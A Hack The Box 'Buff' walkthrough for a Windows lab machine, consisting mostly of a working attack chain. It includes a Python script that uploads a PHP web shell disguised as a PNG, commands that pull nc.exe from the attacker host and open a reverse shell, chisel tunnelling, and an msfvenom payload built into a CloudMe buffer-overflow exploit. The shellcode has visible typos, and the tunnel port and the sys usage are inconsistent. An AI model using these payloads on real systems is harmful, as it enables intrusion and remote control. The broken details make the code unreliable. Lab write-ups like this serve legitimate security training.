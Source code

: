 
# HTB Buff Walkthrough

## Buff Overview
Buff is a Windows machine with an easy difficulty level, running Gym Management System 1.0, which has an unauthenticated remote code execution vulnerability. After scanning the internal network, a service is discovered on port 8888. The installation file for this service is found on the disk, enabling local debugging. By setting up port forwarding, we can access the service remotely and exploit the vulnerability.

## Enumeration

```bash
nmap -sC -sV 10.10.10.198 -oA nmap -Pn
```

**Results:**

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
```

Visiting the site, I found out that it is using Gym Management Software 1.0, which suffers from an unauthenticated file upload vulnerability that can lead to Remote Code Execution (RCE).

From the website of Gym Management Software, we can download the source code and check for the `upload.php`.

## Exploitation

Using a simple Python script, we can upload a shell.

### Python Script:

```python
#!/usr/bin/env python3
import requests

def Main():
    url = "http://10.10.10.198:8080/upload.php?id=test"
    s = requests.Session()
    s.get(url, verify=False)

    PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
    png = {
        'file': (
            'test.php.png',
            PNG_magicBytes + '\n' + '<?php echo shell_exec($_GET["cmd"]); ?>',
            'image/png',
            {'Content-Disposition': 'form-data'}
        )
    }

    data = {'pupload': 'upload'}
    
    # Send the POST request to upload the file
    r = s.post(url=url, files=png, data=data, verify=False)
    print("Uploaded!")

if __name__ == "__main__":
    Main()
```

### Code Explanation

1. **Purpose of the Script:**
   The script is designed to exploit a file upload vulnerability on a web application running on `http://10.10.10.198:8080/upload.php`. It uploads a web shell disguised as a PNG image, allowing the attacker to execute commands remotely via the `cmd` parameter in the web shell.

2. **Key Components:**

   - **PNG_magicBytes:**
     PNG files start with specific magic bytes to indicate that they are valid PNG files. This script includes these bytes (`\x89\x50\x4e\x47\x0d\x0a\x1a`) at the start of the uploaded file to fool the application into thinking the file is a real PNG image.

   - **Web Shell Content:**
     The PHP code in the file being uploaded:
     ```php
     <?php echo shell_exec($_GET["cmd"]); ?>
     ```
     This code executes any command provided through the `cmd` parameter in the URL. For example:
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=whoami
     ```
     would execute the `whoami` command on the server.

   - **Upload Request:**
     The script creates a fake "image" with the required PNG magic bytes and the PHP web shell:
     ```python
     PNG_magicBytes + '\n' + '<?php echo shell_exec($_GET["cmd"]); ?>'
     ```
     The file is sent to the server using a POST request:
     ```python
     r = s.post(url=url, files=png, data=data, verify=False)
     ```

   - **Accessing the Web Shell:**
     Once uploaded, the web shell will be available at:
     ```
     http://10.10.10.198:8080/upload/test.php
     ```
     Commands can be executed by appending them as the `cmd` parameter:
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=<COMMAND>
     ```

     Use Burp Suite to execute this (URL encode):
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=Powershell Invoke-WebRequest -Uri http://10.10.14.6:80/nc.exe -Outfile /users/public/nc.exe
     ```

     Execute the `nc.exe`:
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=/users/public/nc.exe 10.10.14.6 9000 -e cmd.exe
     ```

## Privilege Escalation

The server is communicating with port 8888.

1. **Use Chisel to tunnel communication into the attacker's machine:**

   - [Chisel GitHub](https://github.com/jpillora/chisel)
   
   Upload `chisel.exe` to the victim's machine.

2. **Setup a listening server on the attacker's machine:**

   ```bash
   ./chisel server -p 9999 --reverse
   ```

3. **Listen to the server on the victim's side:**

   ```bash
   chisel.exe client 10.10.14.6:9999 R:8888:127.0.0.1:888
   ```

Once the tunnel is created, craft the buffer overflow exploit.

### Install ExploitDB:

```bash
sudo apt update && sudo apt -y install exploitdb
```

Search for the exploit:

```bash
searchsploit cloudme
```

Found: `CloudMe 1.11.2 - Buffer Overflow (PoC)`  
Location: `windows/remote/48389.py`

```bash
└──╼ [★]$ find / 2>/dev/null | grep 48389.py
/usr/share/exploitdb/exploits/windows/remote/48389.py
```

Copy to `HTB/Buff`:

```bash
cp /usr/share/exploitdb/exploits/windows/remote/48389.py ~/HTB/Buff/exploit.py
```

Now, craft the payload using `msfvenom`:

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=9001 EXITFUNC=thread -b "\x00\x0A\x0D" -f python
```

Put the payload in `exploit.py`:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

import socket
target = "127.0.0.1"
padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30
buf =  b""
buf += b"\xdb\xd7\xd9\x74\x24xf4\xbd\x8e\xc1\x90\xf2\x58"
buf += b"\x31xc9\xb1\x52\x31\x68\x17\x03\x68\x17\x83\x4e"
buf += b"\xc5\x72\x07\xb2\x2e\xf0\xe8\x4a\xaf\x95\x61\xaf"
# More shellcode here...
payload = buf
overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))
buf = padding1 + EIP + NOPS + payload + overrun
try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target,8888))
    s.send(buf)
except Exception as e:
    print(sys.exc_value)
```

### Setup a Listener on Port 9001

Run the exploit:

```bash
python exploit.py
```
